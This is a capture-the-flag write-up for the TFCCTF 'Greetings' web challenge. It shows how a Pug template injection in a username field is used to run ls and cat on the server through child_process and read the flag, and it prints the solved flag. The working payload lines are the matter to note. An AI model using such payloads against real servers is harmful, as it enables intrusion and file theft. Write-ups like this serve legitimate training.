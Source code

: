 # GREETINGS

![](../images/greetings-part-1.png)

I start the instance, and click on the link generated by the instance, which takes me to this website:

![](../images/greetings-part-2.png)

I decide to enter my username as "a", which results in:

![](../images/greetings-part-3.png)

I then glance at the URL at the top of the page:

```txt
http://challs.tfcctf.com:30691/result?username=a
```

Wondering what would happen if I deleted the `?username` field from the URL, I change the URL to:

```txt
http://challs.tfcctf.com:30691/result
```

Which results in:

![](../images/greetings-part-4.png)

I then open Burpsuite. While browsing through the requests and responses, I notice something interesting in one of the responses:

![](../images/greetings-part-5.png)

Express is a framework for Node, which is written in Javascript. Due to this, I now have many Javascript exploits to choose from. I decide to use a Javascript SSTI first, so I enter:

![](../images/greetings-part-6.png)

Now, if the website gives me an error after executing this, it is vulnerable to SSTI (as this sends a broken template to the server. If the server doesn't process templates from the user, it wouldn't give an error). I then execute my input, which results in:

![](../images/greetings-part-7.png)

The website is vulnerable. Looking through the text of the error:

```txt
Syntax Error: Unexpected token
    at makeError (/usr/src/app/node_modules/pug-error/lib/index.js:34:15)
    at Lexer.error (/usr/src/app/node_modules/pug-lexer/index.js:62:15)
    at Lexer.assertExpression (/usr/src/app/node_modules/pug-lexer/index.js:96:12)
    at Lexer.addText (/usr/src/app/node_modules/pug-lexer/index.js:627:12)
    at Lexer.text (/usr/src/app/node_modules/pug-lexer/index.js:653:12)
    at Lexer.callLexerFunction (/usr/src/app/node_modules/pug-lexer/index.js:1647:23)
    at Lexer.advance (/usr/src/app/node_modules/pug-lexer/index.js:1689:12)
    at Lexer.callLexerFunction (/usr/src/app/node_modules/pug-lexer/index.js:1647:23)
    at Lexer.getTokens (/usr/src/app/node_modules/pug-lexer/index.js:1706:12)
    at lex (/usr/src/app/node_modules/pug-lexer/index.js:12:42)
```

The website seems to be stored in the `/usr/src/app/` directory of the server, as the `/app/` directory contains the subdirectory of `/node_modules/`. So, I type:

```txt
 #{process.mainModule.require('child_process').spawnSync('ls', ['/usr/src/app/']).stdout}
```

This command forces the entry point of the server (`process.mainModule`) to be able to create subprocesses (`.require('child_process')`). Then, a new processes is created by the server, executing the shellcode of `ls /usr/src/app/` (`.spawnSync('ls', ['/usr/src/app/'])`), with the standard output of the command enabled (`.stdout`). I then execute the command, which results in:

![](../images/greetings-part-9.png)

I then type:

```txt
#{process.mainModule.require('child_process').spawnSync('cat', ['/usr/src/app/flag.txt']).stdout}
```

This command is very similar to my previous command, but instead of listing all the files in the `/usr/src/app/` directory, it uses the `cat` comamnd to output the contents of `flag.txt`. I then execute the command, which results in:

![](../images/greetings-part-10.png)

I then submit `TFCCTF{a6afc419a8d18207ca9435a38cb64f42fef108ad2b24c55321be197b767f0409}` and solve the challenge.










